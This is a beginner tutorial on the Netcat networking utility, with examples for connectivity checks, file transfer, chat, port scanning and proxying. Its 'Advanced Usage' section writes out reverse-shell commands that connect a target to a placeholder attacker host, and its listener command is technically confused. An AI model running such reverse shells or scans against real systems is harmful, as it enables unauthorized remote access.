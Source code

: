 
Netcat, often referred to as "nc," is a versatile networking utility that can read and write data across network connections using TCP or UDP protocols. It is commonly used by system administrators and DevOps professionals for various tasks, including network diagnostics, file transfers, and creating simple network services. Below is a comprehensive tutorial on using Netcat, complete with real-life examples and use cases.

### Installation

Netcat is usually pre-installed on most Linux distributions. You can check if it's installed by running:

```bash
nc -h
```

If it's not installed, you can install it using your package manager. For example:

- **Debian/Ubuntu**:
  ```bash
  sudo apt-get install netcat
  ```

- **Red Hat/CentOS**:
  ```bash
  sudo yum install nc
  ```

### Basic Usage

#### 1. **Checking Connectivity**

You can use Netcat to check if a specific port on a remote server is open:

```bash
nc -zv example.com 80
```

- `-z`: Zero-I/O mode (used for scanning).
- `-v`: Verbose output.

This command checks if port 80 (HTTP) is open on `example.com`.

#### 2. **Creating a Simple TCP Server**

You can create a simple TCP server that listens for incoming connections:

```bash
nc -l -p 12345
```

- `-l`: Listen mode.
- `-p`: Specify the port to listen on.

You can connect to this server from another terminal or machine:

```bash
nc <server_ip> 12345
```

Once connected, anything you type in one terminal will be sent to the other.

#### 3. **Transferring Files**

Netcat can be used to transfer files between two machines. On the receiving machine, run:

```bash
nc -l -p 12345 > received_file.txt
```

On the sending machine, run:

```bash
nc <receiver_ip> 12345 < file_to_send.txt
```

This will send `file_to_send.txt` to the receiving machine, which will save it as `received_file.txt`.

#### 4. **Chat Application**

You can create a simple chat application using Netcat. On one terminal, start the listener:

```bash
nc -l -p 12345
```

On another terminal, connect to it:

```bash
nc <server_ip> 12345
```

Now, you can chat back and forth.

### Advanced Usage

#### 5. **Port Scanning**

Netcat can be used to scan for open ports on a target machine:

```bash
nc -zv <target_ip> 1-1000
```

This command scans ports 1 to 1000 on the target IP.

#### 6. **Creating a Reverse Shell**

Netcat can be used to create a reverse shell, which is useful for remote administration:

On the attacker's machine (listener):

```bash
nc -l -p 4444 -e /bin/bash
```

On the target machine (initiating the connection):

```bash
nc <attacker_ip> 4444 -e /bin/bash
```

This will give the attacker a shell on the target machine. **Use this responsibly and only in authorized environments.**

#### 7. **Proxying Traffic**

Netcat can be used to create a simple proxy. For example, to forward traffic from one port to another:

```bash
nc -l -p 12345 | nc <destination_ip> 80
```

This command listens on port 12345 and forwards all traffic to port 80 on the destination IP.

### Real-Life Use Cases

1. **Network Troubleshooting**: Use Netcat to check if a service is running on a specific port or to test connectivity between two machines.

2. **File Transfer**: Quickly transfer files between servers without needing FTP or SCP.

3. **Remote Administration**: Create a reverse shell for remote access (ensure you have permission to do this).

4. **Service Testing**: Test web servers or other services by sending raw HTTP requests.

5. **Security Auditing**: Use Netcat for port scanning and to check for open ports and services.

### Conclusion

Netcat is a powerful tool for network communication and diagnostics. Its versatility makes it a valuable asset for system administrators and DevOps professionals. However, it is essential to use it responsibly and ethically, especially when dealing with reverse shells and network scanning. Always ensure you have permission to perform any actions on the networks and systems you are working with.
